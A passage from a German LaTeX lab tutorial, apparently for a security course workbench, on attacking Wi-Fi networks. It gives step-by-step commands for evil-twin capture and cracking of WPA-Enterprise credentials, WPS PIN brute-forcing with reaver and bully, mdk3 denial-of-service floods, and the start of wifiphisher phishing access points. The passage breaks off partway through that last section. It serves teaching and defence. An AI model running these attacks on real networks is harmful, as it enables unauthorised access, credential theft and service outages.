	Rule-based Attacken gehören zu den komplizierteren Angriffsarten. Dabei wird ein normaler Dictionary-Angriff gefahren, aber mit Regeln erweitert. Die Regeln sind wie eine Art Programmiersprache für die Generierung von Passwörtern. Es gibt Funktionen mit denen Passwortkandidaten bearbeitet, mit anderen Wörtern verknüpft oder bestimmte Kombinationen übersprungen werden können. Regeln zu schreiben kann sehr aufwändig sein und erfordert viel Wissen über Passwörter. Daher kann für die ersten Versuche auch die \colorbox{altgray}{\lstinline|best64.rule|} Regel verwendet werden, die standardmäßig bei \colorbox{altgray}{\lstinline|hashcat|} dabei ist.\newline
\end{enumerate}

\subsection{Enterprise Mode}
Der Enterprise-Mode wird in den meisten Fällen in Unternehmen eingesetzt. Falls hier ein Client Verbindung mit dem AP herstellt, sperrt der AP erst einmal die Nutzung des WLANs und lässt nur Authentifizierungsverkehr durch. Nun muss sich der Client mittels EAP authentifizieren. Ist diese Authentifizierung erfolgreich, dann geschieht die Schlüsselverteilung wie oben im Personal-Mode vorgestellt.\\
WLAN-Netze im Enterprise-Mode benutzen das Extensible Authentication Protocol (EAP). Es gibt verschiedenste Implementierungen dieses Protokolls. Eine sehr weit verbreitete Implementierung ist PEAP (Protected EAP). Diese wird auch im kommenden Angriffstutorial genutzt.

\subsubsection{Schwachstelle: Challenge-Response-Verfahren}
Um einem Nutzer Zugang zum Netz zu gewähren erhält dieser während des Verbindungsaufbaus eine Zufallszahl vom AP/RADIUS-Server als Challenge. Diese wird dann zusammen mit dem Passwort, das sowohl Server als auch Client bekannt ist, gehasht und an den Server zurück übertragen. Dieser prüft den Hash zu ein erneutes Berechnen und gewährt bei Übereinstimmung Zugang zum Netz. \\
Versucht nun ein Angreifer Zugang zum Netz zu erhalten, versucht er valide Credentials eines Netzteilnehmers zu knacken. Hierzu muss ein zweiter Hostspot (im weiteren Fake-AP bezeichnet), der unter der Kontrolle des Angreifers ist, aufgesetzt werden der identisch zum Originalhotspot ist. Wenn nun ein Client fälschlicherweise den Fake-AP für ein Original hält und einen Verbindungsaufbau startet, schickt der Angreifer eine Challenge und erhält eine Response. Aus dieser kann dann mittels eines Wörterbuch-Angriffs das Passwort der Clients extrahiert werden. \\
Die Verwechslung der APs kann aber dadurch ausgeschlossen werden, dass Clients die vom AP zur Verfügung gestellten Zertifikate auf Validität überprüfen. In Realität ist diese Funktion aber vor allem bei Mobilgeräten oftmals deaktiviert, weil hierzu erst das Serverzertifikat in das Gerät importiert werden muss.

\subsubsection{Cracking eines WPA/WPA2-Netzes im Enterprise Mode}
Um die Zugangsdaten eines Nutzers eines Enterprise-Mode WLANs zu erhalten, muss ein Fake-AP mit denselben Daten wie ein Original-AP in Reichweite von Clients platziert werden. Dieser AP sollte idealerweise die Originale an Signalstärke übertreffen, um Verbindungsversuche von Clients zu provozieren.
\begin{enumerate}
	\item {Installation eines Enterprise RADIUS-Servers} \\
	\textit{HINWEIS: Dieser Schritt ist nur durchzuführen, falls das Tutorial entweder außerhalb der Security-Workbench ausgeführt wird, oder im Unterverzeichnis \colorbox{altgray}{\lstinline|WIFI/|} der Workbench kein Verzeichnis \colorbox{altgray}{\lstinline|hostapd-X.X/|} existiert.} \\
	Für die Installation der RADIUS-Server-Software wurde das Skript \\ \colorbox{altgray}{\lstinline|Enterprise-ServerInstall.sh|} im Verzeichnis \colorbox{altgray}{\lstinline|WIFI/|} abgelegt. Diese Skript installiert neben wenigen Libraries den Deamon \colorbox{altgray}{\lstinline|hostapd|}. Dieser implementiert einen RADIUS-Authentifizierungsserver.\\
	Falls es zu Problemen bei der Installation des \colorbox{altgray}{\lstinline|hostapd|}-Deamons kommt, können auch die Archive mit der Kennzeichnung \colorbox{altgray}{\lstinline|_Enterprise|} entpackt werden und die benötigten Libraries (\colorbox{altgray}{\lstinline|libssl-dev libnl-3-dev|} und \colorbox{altgray}{\lstinline|libnl-genl-3-dev|}) per \colorbox{altgray}{\lstinline|apt-get install|} installiert werden.
	\item {Information Gathering}\\
	Um einen Fake-AP aufzusetzen, der Nutzern eines Enterprise-Netzes vortäuscht ein echter AP dieses WLAN-Netzes zu sein, muss ein Original-AP so gut wie möglich kopiert werden. Hierzu werden Informationen bzgl. SSID, Kanalnummer und angewendete WPA-Verfahren benötigt. Diese können mit dem Befehl  \colorbox{altgray}{\lstinline|airodump-ng [wlanX]|} ermittelt werden. Der Adaptername \colorbox{altgray}{\lstinline|wlanX|} sollte zuvor per \colorbox{altgray}{\lstinline|ifconfig|} abgefragt werden, falls noch nicht bekannt.
	\item {Manipulation der Interfaces-Konfiguration}\\
	Nachdem alle benötigten Informationen gesammelt sind, kann mit dem eigentlichen Angriff begonnen werden. Zuerst muss die Interfaces-Datei des Betriebssystems so angepasst werden, dass die Steuerung des WLAN-Adapters an den Netzwerkmanager delegiert wird: \\
	In der Datei \colorbox{altgray}{\lstinline|/etc/network/interfaces|} muss folgende Zeile hinzugefügt oder angepasst werden: \colorbox{altgray}{\lstinline|iface wlanX inet manual|}
	\item {Konfiguration des RADIUS-Servers}\\
	Sobald die Interfaces-Konfiguration abgeschlossen ist, muss in der Datei \colorbox{altgray}{\lstinline|hostapt-wpe.conf|} die RADIUS-Server-Konfiguration angepasst werden. Die Konfigurationsdatei befindet sich im Unterverzeichnis \colorbox{altgray}{\lstinline|WIFI/|} unter \colorbox{altgray}{\lstinline|hostapd-X.X/hostapd/|}.\\
	Folgende Anpassungen müssen erfolgen: \\
	\begin{itemize}
		\item Zeile 11: \colorbox{altgray}{\lstinline|interface=wlanX|}, wobei \colorbox{altgray}{\lstinline|wlanX|} durch den korrekten Adapternamen ersetzt werden muss.
		\item Zeile 14: Auskommentieren der Zeile \colorbox{altgray}{\lstinline|driver=wired|}, da ein WLAN-Interface genutzt wird.
		\item Zeile 25: Anpassen der SSID des Fake-AP unter \colorbox{altgray}{\lstinline|ssid=[AP-SSID]|}
		\item Zeile 27: Anpassen des Kanals des Fake-AP unter \colorbox{altgray}{\lstinline|channel=[Kanal-Nummer]|}
		\item Zeile 49: Anpassen der verwendeten WPA-Version des Fake-AP unter \colorbox{altgray}{\lstinline|wpa=[1 für WPA oder 2 für WPA2]|}
	\end{itemize}
	\item {Starten des Fake-AP}\\
	Da nun alle Konfigurationen erfolgt sind, kann der Fake-AP in Betrieb genommen werden und auf die ersten Opfer gewartet werden. Der Fake-AP lässt sich komfortabel mit dem Skript \colorbox{altgray}{\lstinline|startFakeAP.sh|} gestartet werden. Dieses startet den hostapd-Deamon mit der zuvor festgelegten Konfiguration. Bei jedem Authentifikationsversuch wird nun auf der Konsole die gesendete Challenge und erhaltene Response ausgegeben.
	\begin{figure}[H]
		\centering
		
\includegraphics[width=0.85\textwidth]{images/WLAN/Enterprise.png}
		\caption{Enterprise Fake-AP Challenge-Response}
	\end{figure}
	\item {Cracken des Passwortes}\\
	Um nun aus der aufgenommenen Challenge und Response das Passwort zu extrahieren, muss ein Bruteforce- oder Wörterbuch-Angriff durchgeführt werden. \\
	Ein Wörterbuch-Angriff kann beispielsweise mittels \colorbox{altgray}{\lstinline|asleap|} erfolgen: \\
	\colorbox{altgray}{\lstinline|asleap -C [challenge] -R [response] -W [Dictionary-Datei]|}\\
	\textit{Hinweis:} Es kann zu einer Umcodierung der Wörterbuchdatei kommen, falls diese mit einem graphischen Texteditor wie Leafpad geöffnet wird. Änderungen an den Wörterbuchdateien sollten aus Kompatibilitätsgründen daher im Idealfall in der Konsole bspw. per \colorbox{altgray}{\lstinline|nano|} oder \colorbox{altgray}{\lstinline|vi|}  erfolgen.
\end{enumerate}


\subsection{Fazit}
Mit WPA wurde schnell eine Alternative zu WEP geboten, die aber auf Kompatibilität fokussiert war. Erst mit WPA2 kam durch die zwingende Verwendung komplexer Kryptoalgorithmen die gewünschte Sicherheit. \\
Grundsätzlich sind jedoch beide Verfahren nur so sicher, wie die verwendeten PSKs. Mit ausreichend langer Ausdauer eines Angreifer kann also der PSK des Netzes extrahiert werden. \\
Bei der Verwendung von WPA/WPA2 im Enterprise-Mode sollte besonders auf sichere Passwörter geachtet werden. Hier kann ein Angreifer nicht nur Zugang zum Netz erhalten, sondern kann sich auf bei eventuell im Netz laufenden Diensten anmelden. Wenn ein Client sich fälschlicherweise mit einem Fake-AP verbindet kann ein Angreifer auch hier mit entsprechendem Zeitaufwand die Zugangsdaten erhalten.
\newpage

\section{WPS}

WPS (Wi-Fi Protected Setup) ist ein Standard zum Verbindungsaufbau mit einem WLAN. Das Ziel von WPS ist es, das Hinzufügen von Geräten in ein bestehendes Netzwerk zu vereinfachen. Die oft komplexere Vorgehensweise anderer Verfahren und Standards soll so umgangen werden, ohne auf ausreichende Sicherheit zu verzichten. \\
Die grundlegende Funktionsweise von WPS lässt sich auf drei primäre Ansätze darstellen: Push-button Methode, Pin-Eingabe und NFC (Near Field Communication). Push-button ist die vorgeschriebene Variante, die anderen beiden Möglichkeiten sind optional, sind aber nicht auf allen Geräten verfügbar. \\
Die Varianten werden hier näher beschrieben:

\begin{itemize}
	\item Push-butten Konfiguration: Bei der Push-button Variante wird mit einem Knopfdruck für eine bestimmte Zeit Zugang zu einem WLAN ermöglicht. Zu diesem Zeitpunkt können sich alle Geräte die sich in Reichweite des WLANs befinden verbinden. Der Knopf muss nicht unbedingt physischer Natur sein sondern kann auch softwareseitig sein. Gerade hier können Probleme auftreten, in Gebieten wo sich viele WLAN-fähige Geräte befinden, muss wohl nicht extra erwähnt werden.

	\item PIN Eingabe: Bei dieser Variante wird vom WLAN-Router ein Pin bereitgestellt mit dem sich ein Gerät im WLAN anmelden kann. Es ist sowohl möglich, dass dynamisch vom Gerät ein Pin bereitgestellt wird oder, dass ein einzigartiger Pin vom Router bereitgestellt wird. Der Pin soll problematische Verbindungen verhindern und eine zusätzliche Sicherheit bieten damit sich nicht einfach jedes Gerät in Reichweite verbinden kann, sollte die Push-button Methode angewendet werden. Wie der Authentifizierungsprozess des Pin-Verfahrens genau funktioniert, wird später erklärt.

	\item Near Field Communication (NFC): NFC kann genutzt werden ohne eine manuelle Eingabe ein Gerät in ein WLAN aufzunehmen. Hier muss sehr intensiv darauf geachtet werden, dass Sicherheitsmaßnahmen getroffen werden, damit sich nicht unbekannte oder gefährliche Geräte mit dem WLAN verbinden.
\end{itemize}

\subsection{Authentifizierung per Pin-Eingabe}

Die Authentifizierung per WPS-Pin sieht die Eingabe einer acht stelligen Zahlenfolge auf dem WLAN-Client vor. Hiermit kann eine mögliche sehr komplexe WPA-Passworteingabe vermieden werden. Die WPS-Pin-Methode sieht vor, dass das WLAN-Passwort dem WLAN-Client mitgeteilt wird, wenn eine korrekte WPS-Pin eingegeben wurde. Dabei übermittelt der WLAN-Router dem Client ein Einrichtungspaket mit dem WLAN-Passwort, also dem WPA/WPA2 Schlüssel. \\
Folgender Vorgang zeigt den Ablauf einer Authentifizierung bei der WPS-Pin-Eingabe:

\begin{enumerate}
	\item Der WLAN-Client bittet den WLAN-AP um eine WPS-Pin-Authentifizierung.
	\item Anschließend tauschen beide den Schlüssel für die Transport-Verschlüsselung per Diffie-Hellman aus.
	\item Die Authentizität des WLAN-APs muss vom Client geprüft werden, weil sich ein fremder AP die Pin abgreifen könnte. Das heißt, der Client muss sicherstellen, dass er mit dem richtigen AP die WPS-Authentifizierung durchläuft und nicht mit einem AP, der zufällig den gleichen Namen hat.
	\item Der AP packt je eine vierstellige Pin-Hälfte (mit Zufallszahl gehasht), der insgesamt achtstelligen Pin, in einen verschlüsselten Container und schickt sie an den WLAN-Client. Der kann damit allerdings noch nichts anfangen.
	\item Der Client schickt jetzt die erste Hälfte seiner Pin transportverschlüsselt an den AP.
	\item Wenn dieser erste Teil der Pin korrekt ist, dann schickt der AP die Zufallszahl für die erste Pin an den Client.
	\item Der Client kann daraufhin die erste Pin (mit Zufallszahl gehasht) verifizieren. Er weiß dann, ob er mit dem richtigen AP verbunden ist.
	\item Dann schickt der Client die zweite Hälfte seiner Pin transportverschlüsselt an den AP.
	\item Wenn auch der zweite Teil der Pin korrekt ist, dann bekommt der WLAN-Client vom AP die zweite Zufallszahl und das WLAN-Passwort.
	\item Mit der zweiten Zufallszahl verifiziert der Client auch den zweiten Teil der Pin, die er vom AP bekommen hat.
	\item Wenn diese korrekt ist erfolgt die Anmeldung mit dem WLAN-Passwort per WPA/WPA2.
\end{enumerate}

\subsection{Schwächen von WPS}

Das Aktivieren der WPS-PIN-Methode im Access Point führt bei vielen Modellen dazu, dass ein fremdes Gerät über eine Brute-Force-Methode innerhalb weniger Stunden eine Verbindung herstellen kann und somit auch den Sicherheitsschlüssel unabhängig von dem verwendeten Verschlüsselungsverfahren erhält. \\
Durch einen verbreiteten Fehler in der Implementierung ist es dabei oft nur nötig, eine vierstellige sowie eine dreistellige PIN zu erwürfeln, was die Zahl der Möglichkeiten deutlich verringert. Bei einer Verbindung mittels WPS kann nahezu unmittelbar nach Herstellung der Verbindung das zum Access Point gehörige Wi-Fi-Passwort als Klartext ausgelesen werden. Es ist daher ratsam, die Funktion nicht oder nur als letzte Möglichkeit zu aktivieren, die Anmeldung des Geräts zu prüfen und WPS danach wieder abzuschalten. Nach der Anmeldung sollte auf Anzeichen von unbefugtem Zugriff auf das Netzwerk geachtet und gegebenenfalls das Wi-Fi-Passwort neu gesetzt werden. \\
Bei einigen der betroffenen Access Points ist die WPS-Funktion, obwohl sie in den Einstellungen deaktiviert wurde, weiterhin aktiv. Außerdem bieten auch einige ältere Modelle die Möglichkeit einen Pin selbst zu bestimmen, was ebenfalls problematisch sein kann wenn man einen zu einfachen Pin wählt.

\subsection{Cracking des WPS-Schlüssels}
Folgender Vorgang soll den Ablauf des Hackvorgangs beim WPS-Verfahren zeigen:

\subsubsection{Check des WLAN-Interfaces}
	Falls ein externer Adapter verwendet wird, muss folgendes beachtet werden. Zuerst muss geprüft werden, ob der eingesteckte USB WLAN-Adapter erkannt wird und somit einsatzbereit ist, falls dieser verwendet wird. Dazu muss das Terminal öffnen in Kali Linux öffnen und den Befehl \colorbox{altgray}{\lstinline|ifconfig|} eingeben.

	\noindent Der Adapter sollte als Interface, meist WLAN0 oder WLAN1 (meist bei einem externen WLAN-Adapter), angezeigt werden. Im Folgenden muss bei allen Befehlen die Interface-Bezeichnung mit der hier angezeigten ersetzt werden, da sie sich von Rechner zu Rechner unterscheiden kann.

	\subsubsection{Das Interface in den Monitor Mode versetzen}
	Damit im WLAN Pakete aufgezeichnet werden können, muss sich die WLAN-Karte oder der Adapter im Monitor Mode befinden. \\
	Dies wird mit folgendem Befehl erreicht: \\
	\colorbox{altgray}{\lstinline|airmon-ng start wlanX|} \\

	\noindent Zusätzlich wird nach dem Versetzen in den Monitor Mode erneut der Name des WLAN-Adapters mit \colorbox{altgray}{\lstinline|ifconfig|} nachgesehen, da sich der Name des Adapters ändern kann. Mit dem Befehl \colorbox{altgray}{\lstinline|airmon-ng check kill|} werden zusätzlich alle laufenden Prozesse, die Probleme verursachen könnten, beendet.

	\subsubsection{Scannen der WLANs \colorbox{altgray}{\lstinline|airodump-ng|}}
	Im nächsten Schritt werden die WLAN Pakete aus der Umgebung aufgezeichnet. Damit möchte man einen Handshake zwischen dem zu hackenden Access Point und einem Client aufzeichnen. Anhand dessen kann anschließend das Passwort herausgefunden werden. Der Name des WLANs ändert sich hier für gewöhnlich, es ist also eine weitere Runde mit \colorbox{altgray}{\lstinline|ifconfig|} sinnvoll, um sicherzustellen, dass man den korrekten WLAN-Namen verwendet. Mit dem folgenden Befehl können wir nun in den Aufzeichnungsmodus umschalten: \newline
	\colorbox{altgray}{\lstinline|airodump-ng -b a wlanXmon|}\newline
	\begin{itemize}
		\item Falls wir im 5GHz Bereich scannen möchten muss der Parameter -b a mitgegeben werden. Falls nicht, kann der Parameter einfach weggelassen werden
		\item wlanXmon steht für die SSID des eigenen Adapters im Monitor Mode
	\end{itemize}
Sollten keine Daten aufgezeichnet werden, dann den Adapter mehrmals aus- und wieder einstecken. Nach einem Reconnect muss der Adapter natürlich wieder in den Monitoring Modus versetzt werden. Hat alles soweit geklappt, sollten alle erreichbaren SSIDs mit ihren jeweiligen Sendern angezeigt werden. Als nächstes sollte die MAC-Adresse und der verwendete Kanal des zu hackenden APs notiert werden.

	\subsubsection{Beginn des Angriffs mit \colorbox{altgray}{\lstinline|wash|} und \colorbox{altgray}{\lstinline|reaver|}}

	Zu Beginn des Angriffs muss getestet werden, ob der Zielrouter WPS unterstützt. Dies wird mit folgendem Befehl erreicht: \\
	\colorbox{altgray}{\lstinline|wash -i wlanXmon -c KANAL -C -s|}\newline
		\begin{itemize}
			\item -s stellt den Scanner-Mode bei \colorbox{altgray}{\lstinline|wash|} ein
			\item -C werden Frame-Prüfsummenfehler ignoriert
			\item Mit -i wird der WLAN-Adapter spezifiziert
			\item -c stellt den da Zielkanal
		\end{itemize}


		Eine mögliche Ausgabe von  \colorbox{altgray}{\lstinline|wash|} zeigt folgende Abbildung:
				\begin{figure}[H]
					\centering
					
\includegraphics[width=0.9\textwidth]{images/WLAN/WashWPS.jpg}
					\caption{Wash Ausgabe}
					\label{fig:Wash Ausgabe}
				\end{figure} 
				
\noindent Nach der Ausgabe von \colorbox{altgray}{\lstinline|wash|} wird nun die WPS-PIN geknackt und der WPA2-PSK extrahiert mit dem Aufruf von \colorbox{altgray}{\lstinline|reaver|} der wie folgt lautet:
	\colorbox{altgray}{\lstinline|reaver -i wlanXmon -b BSSID|}
			\begin{itemize}
				\item -b spezifiziert hierbei das Ziel des Angriffs das zuvor durch \colorbox{altgray}{\lstinline|wash|}
				\item -i spezifiziert auch hier den WLAN-Adapter
			\end{itemize}

	\noindent Folgende Abbildung zeigt wie die Ausgabe aussieht. Das weiße Feld würde im optimalen Fall das Ergebnis enthalten.

						\begin{figure}[H]
							\centering
							
\includegraphics[width=0.9\textwidth]{images/WLAN/reaver.png}
							\caption{Reaver Ausgabe}
							\label{fig:Reaver Ausgabe}
						\end{figure}

	\subsubsection{Alternativer Angriff mit \colorbox{altgray}{\lstinline|bully|}}

	Alternativ zu \colorbox{altgray}{\lstinline|reaver|} bietet sich auch das Programm \colorbox{altgray}{\lstinline|bully|} an mit dem der Angriff durchgeführt werden kann. Wir starten den Vorgang mit folgendem Befehl: \\
	\colorbox{altgray}{\lstinline|bully wlanXmon --b BSSID -e SSID -c KANAL|}
				\begin{itemize}
					\item --b stellt die Ziel-Mac-Adresse da
					\item -c steht für den Kanal auf dem der Acces Point sendet
					\item wlanXmon steht für die SSID des eigenen Adapters im Monitor Mode
					\item -e der Name des Ziel-Access Points
				\end{itemize}

\noindent Sollte das Ziel verwundbar sein für einen WPS-Angriff wird \colorbox{altgray}{\lstinline|bully|} das Passwort nach einiger Zeit ausgeben.

\subsection{Fazit}

WPS ist heute ohne Zweifel immer noch von Interesse, da es eine einfache Möglichkeit bietet Geräte in ein WLAN aufzunehmen ohne ihnen den möglicherweise sehr komplexen WPA-Schlüssel zu geben. Es bietet also einen vereinfachten Weg zusätzlich zu WPA. Daneben muss jedoch klar sein, dass nach der einfachen Push-button Methode immer überprüft werden muss, ob sich Geräte im WLAN befinden die dort nichts zu suchen haben. \\
Die Probleme früherer Geräte mit WPS, die unter dem obigen Kapitel aufgeführt wurden sind allerdings mittlerweile behoben. Einerseits wurden laufende Schlüsselwechsel eingeführt und andererseits wurde sichergestellt, dass der Zugang bei der push-button Methode zeitlich begrenzt ist. \\
\newpage

\section{DoS}
Ein Denail of Service-Angriff hat das Ziel, ein Netzwerk oder einen Server zu blockieren. Im Grunde basiert es einfach darauf durch eine Masse von Anfragen das Ziel zu überlasten und es im optimalen Fall zum Absturz zu bringen. Ein Erfolg ist hier also nicht Zugang zum Netz zu erhalten, sondern das Ziel möglichst lange in seinen Diensten einzuschränken, zu blockieren oder unbenutzbar zu machen. Dazu werden die zur Verfügung stehenden Programme oder Netzwerk-Ressourcen außerordentlich überbelastet, manchmal auch kollektiv von tausenden Nutzern. Große Ziele, also zum Beispiel Firmenserver die ohnehin starken Datenverkehr gewohnt sind, können nicht von einem einzigen eifrigen Angreifer mit seinem heimischen Computer in Bedrängnis gebracht werden. Außerdem wird an dieser Stelle darauf hingewiesen, dass hier von DoS-Angriffen die Rede ist, die von außerhalb des Ziel-WLANs erfolgen. DoS-Angriffe die in einem WLAN oder LAN erfolgen, werden an anderer Stelle bearbeitet. \\
Für den Angriff wird hier das Tool \colorbox{altgray}{\lstinline|MDK3|} (Murder Death Kill 3) verwendet, welches speziell für WLAN-Netzwerke entwickelt wurde. \\
Zuerst müssen auch hier wieder die um den WLAN-Adapter konkurrierenden Prozesse über das Kommando\\
\\
\colorbox{altgray}{\lstinline|airmon-ng check kill|}\\
\\
beendet werden.
Danach versetzen wir den WLAN-Adapter in den Monitoring-Modus. Dies geschieht über das Kommando:\\
\\
\colorbox{altgray}{\lstinline|airmon-ng start wlanX|}.\\
\\
Der WLAN-Adapter erhält hier für gewöhnlich einen neuen Namen mit der Form wlanXmon. Allerdings sei auch hier noch einmal darauf hingewiesen, dass sich der Name und eine mögliche Veränderung von System zu System unterscheiden kann.
\\
Anschließend suchen wir uns den Ziel-Access Point aus. Dies geschieht über den Befehl:\\
\\
\colorbox{altgray}{\lstinline|airodump-ng wlanXmon --band abg|}.\\
\\
 Aus der von diesem Werkzeug generierten Liste notieren wir die MAC-Adresse (BSSID) und den Kanal des Ziel-Access Points und die Art der Verschlüsselung. Diese Informationen werden im weiteren Verlauf benötigt.
\\
Das MDK3-Tool stellt verschiedene Methoden bereit, um einen DoS-Angriff auf dem Ziel auszuführen.

\subsection{Michael shutdown exploitation}
Diese Methode nutzt einen Fehler in der TKIP-Verschlüsselung aus, um den gesamten Datenverkehr im Ziel-Netzwerk zu unterbinden. Für einen erfolgreichen Angriff muss das WLAN mit TKIP verschlüsselt sein, was im Allgemeinen bei WPA der Fall ist. Gestartet wird der Angriff über den Befehl:\\
\\
\colorbox{altgray}{\lstinline|mdk3 wlanXmon m -t BSSID -j|}
\begin{itemize}
	\item \bashCommand{wlanXmon} Name des WLAN-Adapters im Monitor Mode
	\item \bashCommand{m} Festlegen der Angriffsart
	\item \bashCommand{-t BSSID} Festlegen der Ziels
	\item \bashCommand{-j} Schwachstelle in der QoS-Implementierung der TKIP-Verschlüsselung auszunutzen
\end{itemize}
Dadurch werden nur ein paar Datenpakete benötigt, um den Datenverkehr nachhaltig zu stören.

\subsection{Beacon Flood Mode}
Bei dieser Methode werden Beacon-Frames ausgesendet, um den Clients gefälschte Access Points vorzugaukeln. Dies kann zu Abstürzen der Netzwerkscanner oder Treiber der WLAN-Adapter führen.\\
\\
\colorbox{altgray}{\lstinline|mdk3 wlanXmon b -c KANAL|}
\begin{itemize}
	\item \bashCommand{wlanXmon} Name des WLAN-Adapters im Monitor Mode
	\item \bashCommand{b} Festlegen der Angriffsart
	\item \bashCommand{-c Kanal} Kanal, auf dem gesendet werden soll
\end{itemize}
Selbst wenn dabei kein Absturz verursacht werden kann, so kann trotzdem ein erstmaliges Verbinden mit einem Netzwerk deutlich erschwert werden, da die Liste der verfügbaren WLAN-Netzwerke auch sämtliche gefälschten Access Points anzeigt.

\subsection{Authentication DoS mode}
Bei dieser Methode werden vom Angreifer Authentication-Frames an den durch die BSSID spezifizierten Access Point geschickt. Zu viele Clients bringen den Access Point möglicherweise zum Absturz. Der folgende Befehl führt den Angriff aus:\\
\\
\colorbox{altgray}{\lstinline|mdk3 wlanXmon a -a BSSID|}
\begin{itemize}
	\item \bashCommand{wlanXmon} Name des WLAN-Adapters im Monitor Mode
	\item \bashCommand{a} Festlegen der Angriffsart
	\item \bashCommand{-a BSSID} Festlegen des Ziel-APs
\end{itemize}
Nach einiger Zeit führt dieser Angriff dazu, dass der angegriffene Access Point abstürzt, oder dass dieser keine neuen Verbindungen mehr annimmt.

\subsection{Deauthentication DoS mode}
Bei diesem Angriff wird versucht die Verbindung eines jeden Ziels auf der Blacklist in den angegebenen Kanälen zu beenden. Der folgende Befehl führt den Angriff aus: \\
\\
\colorbox{altgray}{\lstinline|mdk3 wlanXmon d -b blacklist -c KANAL|}
\begin{itemize}
	\item \bashCommand{wlanXmon} Name des WLAN-Adapters im Monitor Mode
	\item \bashCommand{d} Festlegen der Angriffsart
	\item \bashCommand{-b blacklist} Name der Blacklist Datei, die die Angriffsziele enthält, eine leere Datei wird automatisch befüllt
	\item \bashCommand{-w whitelist} Optionale Angabe einer Whitelist Datei
	\item \bashCommand{-c Kanal} Kanal des Ziels, mehrere Kanäle durch Komma getrennt angeben
\end{itemize}


\subsection{Fazit}

Der Beacon Flood Mod konnte in den durchgeführten Versuchen keine Erfolge erzielen, während sich die anderen Angriffsmodi als zuverlässig erwiesen. DoS-Angriffe sind immer noch relevant und auch neuere Fritzboxen können durch die Angriffe zum Absturz gebracht werden.
\newpage

\section{Fake Access-Points}
Bereits beim Hacking von WPA/WPA2-Enterprise-Netzen wurde ein Fake-AP genutzt, um einen legitimen Netzwerkzugangspunkt zu imitieren.\\ Die Idee bösartiger WLAN-Zugangspunkte gibt es schon länger, doch diese Bedrohung gewinnt durch vermehrt aufgetauchte Skripte und Programme an Bedeutung. Für einen Fake AP wird meist ein Laptop so konfiguriert, das er sich als Hotspot oder Access Point ausgibt.\\ Dabei besteht entweder die Möglichkeit, eine bestehende SSID in der Umgebung zu wählen oder eine für viele Besitzer interessante SSID zu wählen. \\
Der Betreiber eines Fake-AP versucht in der Regel Informationen vom Opfer zu erlangen, beispielsweise über Phishing-Seiten. Auch ein Einschleusen von Schadcode auf dem Opfer ist möglich. \\
Ein bekanntes Tool um Fake-APs zum Phishing zu erstellen ist der \colorbox{altgray}{\lstinline|wifiphisher|}.

\subsection{Wifiphisher Installation}
\textit{HINWEIS: Dieser Schritt ist nur durchzuführen, falls das Tutorial außerhalb der Security-Workbench ausgeführt wird.}\\
Um die Installation so einfach wie möglich zu gestalten, steht im Unterverzeichnis \colorbox{altgray}{\lstinline|WIFI/|} der Security-Workbench das Installationsskript \colorbox{altgray}{\lstinline|wifiphisherInstalltion.sh|} zur Verfügung. Wurde dieses erfolgreich ausgeführt sind alle benötigten Tools installiert.

\subsection{Theoretischer Ablauf}

Zunächst wird ein eventuell vorhandener Access Point blockiert. \\
Im nächsten Schritt wird ein eigener Access Point beziehungsweise Hotspot erstellt. \\
Anschließend wird gewartet, bis sich Benutzer am Access Point anmelden. Ist das Signal des Angreifers aufgrund von z.B. örtlicher Nähe stärker, so kann es sein, dass sich die Opfer automatisch mit dem Fake Access Point verbinden. \\
Je nach Ziel des Angreifers wird den Opfern nun eine Anmeldemaske zum Phishing von Passwörtern oder Kreditkarten angezeigt.
Auch ein Mitlesen und die Manipulation des Datenverkehrs sowie eine Infektion des Opfers mit Schadcode über Lücken im Betriebssystem beziehungsweise im Browser ist möglich.

\subsection{Erstellen eines Fake-AP mit Wifiphisher}
\textit{Hinweis:} Falls während der Initialisierung der WLAN-Interfaces von \colorbox{altgray}{\lstinline|wifiphisher|} zu Fehlern kommt, ist zu beachten, dass beide benötigten Interfaces Packet-Injection unterstützen müssen. 
In der Security-Workbench wird das Konsolen-Tool \colorbox{altgray}{\lstinline|wifiphisher|} gestartet.\\
Anschließend führt das Programm eine Suche nach WLANs in der Umgebung durch. Aus dieser Liste kann ein  Zielnetzwerk ausgewählt werden. 
\begin{figure}[H]
	\centering
